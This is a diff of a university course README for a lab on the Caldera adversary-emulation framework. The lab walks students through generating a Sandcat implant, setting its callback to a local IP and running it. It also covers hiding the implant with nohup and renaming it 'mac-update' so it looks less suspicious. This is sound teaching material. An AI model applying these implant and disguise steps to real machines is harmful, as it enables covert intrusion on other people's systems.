

Before and after one commit to delveccj/CSC180_Spring2024, a Markdown page: Lecture3/README.md, the part around the change printed below. Shown: that part at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Lecture3/README.md
+++ b/Lecture3/README.md
@@ -98,30 +116,38 @@ Once the server is running, open your browser and go to:
 ```
 http://localhost:8888
 ```
+
+Please use Firefox!
+
 🔑 **Default Login Credentials:**
-- **Username:** `red`
+- **Username:** `admin`  or `red`
 - **Password:** `admin`
 
 ---
 
 ## **6️⃣ Create a Client (Agent)**
+Now comes the part where you use Caldera to create an Agent.  This agent is a piece of malware.  You will need to implant it on the victim machine!
+
 From the Caldera UI:
+
 - Go to **Agents → Generate Agent**
 - Choose **Sandcat (Go)** for macOS/Linux
 - **Set the callback address**:
+-
   ```plaintext
   192.168.X.X:8888
   ```
-  (Replace `192.168.X.X` with your **Mac’s private IP**—next step will explain how to find it.)
+  (Replace `192.168.X.X` with your **machine's private IP** — next step will explain how to find it.)
 
-- **Download the agent**.
+- **Download the agent to your machine.**. What this means is literally open nano, name the file sandcat, and copy and paste the agent code into it.  Your professor will step you though this step.  This is the part where you **imagine** someone has clicked a link and downloaded some malware!
 
 ---
 
-## **7️⃣ Find Your Mac’s IP Address**
+## **7️⃣ Find Your Machine’s IP Address**
 Run this command to get your **local (private) IP address**:
+
 ```bash
-ifconfig | grep "inet " | grep -v 127.0.0.1
+ifconfig | grep "inet "
 ```
 🔹 Look for an IP like `192.168.1.238`—this is your **local network IP**.
 👉 **Use this IP as the callback address when creating the client!**
@@ -130,24 +156,31 @@ ifconfig | grep "inet " | grep -v 127.0.0.1
 
 ## **8️⃣ Copy & Start the Client**
 Once you have downloaded the client, make it **executable**:
+
 ```bash
 chmod +x sandcat
 ```
+
 Then, **run it**:
 ```bash
 ./sandcat
 ```
-After running it, **check the Caldera UI** → You should see the agent check in under **Agents**.
+
+After running it, **check the Caldera UI** → You should see the agent check in under **Agents**.  That is, head back to Firefox and click on Agents.  You agent will show up - wait for it!
 
 ---
 
 ## **9️⃣ Hiding the Agent (Stealth Mode)**
-You can "hide" the agent by:
+Note, if you wanted to you can "hide" the agent to make this more realistic. You could simply issue these commands:
+
 - Running it **in the background**:
+
   ```bash
   nohup ./sandcat &> /dev/null &
   ```
+
 - Renaming it to look **less suspicious**:
+
   ```bash
   mv sandcat mac-update
   ./mac-update &
````
Also changed, not shown: other parts of Lecture3/README.md (+26 -26 lines).
